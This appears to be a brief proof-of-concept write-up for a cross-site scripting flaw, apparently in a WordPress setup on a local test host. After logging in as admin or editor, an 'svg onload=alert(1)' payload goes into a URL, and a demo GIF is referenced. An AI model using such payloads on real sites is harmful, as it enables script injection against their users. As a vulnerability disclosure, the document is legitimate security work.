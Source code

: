 # Steps
**Step 1:** 
Log in as the admin or the editor

**Step 2**
Inject XSS
with the follow code
```
http://wpdistillery.vm/<svg onload=alert(1)>
```
# Demo
![](Demo.gif)

